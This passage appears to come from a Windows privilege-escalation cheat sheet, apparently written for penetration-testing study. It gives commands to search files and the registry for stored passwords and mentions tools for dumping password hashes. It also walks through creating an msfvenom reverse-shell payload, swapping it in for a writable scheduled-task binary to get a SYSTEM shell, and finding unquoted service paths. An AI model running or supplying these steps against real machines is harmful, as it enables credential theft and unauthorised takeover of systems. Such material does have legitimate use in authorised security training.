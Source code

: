 You can also use `pwdump` and `fgdump` to dump out passwords.

### Searching the filesystem and registry
```
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


## Scheduled tasks

Read the output of scheduled tasks and check the following:

    schtasks /query /fo LIST /v

1. Run as User: system

If you get any as system then go through that in detail to find the "Task to Run", time and schedules.
Based on "Task to run", check the access permission of that folder and file.

    accesschk.exe -dqv "E:\getLogs"

2. If it has readwrite(RW) for authenticated users then we can overwrite the file it's trying to run as system with our payload.

3. Generate payload

    msfvenom windows/shell_reverse_tcp lhost='127.0.0.1' lport='1337'  -f  exe > /root/Desktop/evil-log.exe copy evil-log.exe E:\getLogs\log.exe

4. Overwrite it.  Open a listener and wait for it to run and grab a shell as system.

You will need to take time to examine ALL the binary paths for the windows services, scheduled tasks and startup tasks.

The below are checked by winprivesc/powerup so you should get it in the powershell output, but have to learn the manual methods too.

Reference: https://toshellandback.com/2015/11/24/ms-priv-esc/


## Unquoted service paths

If there is a service with a path that has space in it and is also unquoted then make a file.exe with the file name as the first name before the space and restart the service.

Commands to check the service name and path:

    # Find unquoted paths
    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

    # Make sure you have permission to edit/put files in the folders using icacls
    icacls "C:\Program Files (x86)\<Folder name>"
    cacls "C:\Programs Files\foldername"
    accesschk.exe -dqv "C:\Program Files\foldername"

